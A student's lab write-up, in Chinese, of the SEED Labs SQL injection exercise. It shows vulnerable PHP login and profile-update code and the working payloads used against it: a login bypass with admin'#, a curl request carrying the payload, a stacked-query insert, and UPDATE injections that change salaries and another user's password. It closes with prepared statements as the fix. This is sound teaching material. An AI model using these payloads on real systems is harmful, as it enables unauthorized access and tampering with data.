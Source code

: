 # SQL Injection Attack Lab



## Lab Tasks



### Task 1: Get Familiar with SQL Statements

登录mysql

`$ mysql -u root -pseedubuntu`

![image-20201020080042446](https://gitee.com/ethustdout/pics/raw/master/img/image-20201020080042446.png)

加载数据库

`$ use Users `

![image-20201020080142652](https://gitee.com/ethustdout/pics/raw/master/img/image-20201020080142652.png)

显示表

`$ show tables`

![image-20201020080232803](https://gitee.com/ethustdout/pics/raw/master/img/image-20201020080232803.png)

获取Alice的相关信息

`select * from credential where Name='Alice'`

![image-20201020080412948](https://gitee.com/ethustdout/pics/raw/master/img/image-20201020080412948.png)



### Task 2: SQL Injection Attack on SELECT Statement



#### Task 2.1: SQL Injection Attack from webpage

web端php源码

```php
$input_uname = $_GET['username'];
$input_pwd = $_GET['Password'];
$hashed_pwd = sha1($input_pwd);

$sql = "SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickname,Password
      FROM credential
      WHERE name= '$input_uname' and Password='$hashed_pwd'";
```

没有对`username`字段做任何限制，使用`'`闭合前面的`'`，使用`#`注释掉后面的语句，

使用用户名`admin'#` ，拼接后的sql语句为

```mysql
SELECT id, name, eid, salary, birth, ssn, phoneNumber, address, email,nickname,Password
      FROM credential
      WHERE name= 'admin'#' and Password='$hashed_pwd'
```



![image-20201020080757376](https://gitee.com/ethustdout/pics/raw/master/img/image-20201020080757376.png)

`login`之后，成功

![image-20201020080820634](https://gitee.com/ethustdout/pics/raw/master/img/image-20201020080820634.png)





#### Task 2.2: SQL Injection Attack from command line.

在终端输入

```bash
[10/20/20]seed@VM:~$ curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=admin%27%23&Password=a'
```



![image-20201020081702459](https://gitee.com/ethustdout/pics/raw/master/img/image-20201020081702459.png)

把数据保存下来，用浏览器打开后结果和上面一样



#### Task 2.3: Append a new SQL statement

由于sql语句用的是query，不能多语句查询，修改源码（

```php
[-]      if (!$result = $conn->query($sql)) {
[+]      if (!$result = $conn->multi_query($sql)) {
```

在输入框中，输入

`Alice'; use abc; insert into aaa(username) values ('stdout'); #`

其中abc是自己创建的数据库（为了方便

![image-20201020085651681](https://gitee.com/ethustdout/pics/raw/master/img/image-20201020085651681.png)

进到数据库，查看结果

![image-20201020085711421](https://gitee.com/ethustdout/pics/raw/master/img/image-20201020085711421.png)

插入成功



###  Task 3: SQL Injection Attack on UPDATE Statement



#### **Task 3.1: Modify your own salary**. 

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
nickname=’$input_nickname’,
email=’$input_email’,
address=’$input_address’,
PhoneNumber=’$input_phonenumber’
WHERE ID=$id;";
$conn->query($sql);
```

`?NickName=aaa',salary=114514 where id=1;#`

之后的sql语句为`UPDATE credential SET nickname='aaa', salary=114514 where id=1;#',email='',address='',PhoneNumber='' where ID=1; `

运行之后，成功修改工资为`114514`

![image-20201020091708754](https://gitee.com/ethustdout/pics/raw/master/img/image-20201020091708754.png)



#### Task 3.2: Modify other people’ salary.

老板怎么能这么多工资呢，这样下去不行的，让我们来改成1吧（万恶的资本家）

`NickName=shabi',salary=1 where Name='Boby';#`

sql语句为`UPDATE credential SET nickname='shabi',salary=1 where id=2;#',email='',address='',PhoneNumber='' where ID=1; `

运行之后，修改成功

![image-20201020092220876](https://gitee.com/ethustdout/pics/raw/master/img/image-20201020092220876.png)



```php
$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
```



#### **Task 3.3: Modify other people’ password**. 

原密码

![image-20201020093627863](https://gitee.com/ethustdout/pics/raw/master/img/image-20201020093627863.png)

传入参数

![image-20201020093737854](https://gitee.com/ethustdout/pics/raw/master/img/image-20201020093737854.png)

新密码

![image-20201020093752864](https://gitee.com/ethustdout/pics/raw/master/img/image-20201020093752864.png)



密码`0xDktb`登录成功

![image-20201020095520413](https://gitee.com/ethustdout/pics/raw/master/img/image-20201020095520413.png)



### Task 4: Countermeasure — Prepared Statement

使用预编译防止sql注入

可以见到防止了sql注入攻击

![image-20201020095947604](https://gitee.com/ethustdout/pics/raw/master/img/image-20201020095947604.png)

